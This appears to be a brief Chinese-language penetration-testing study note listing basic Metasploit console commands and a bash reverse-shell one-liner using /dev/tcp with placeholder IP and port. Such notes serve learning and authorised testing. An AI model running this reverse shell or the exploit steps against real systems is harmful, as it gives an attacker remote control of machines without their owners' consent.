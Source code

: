 # day one

```bash
msfconsole
search 关键字
use exploit
set parameter
run
```  

## 反弹shell

```bash
bash -i >& /dev/tcp/ip/端口 0>&1
```
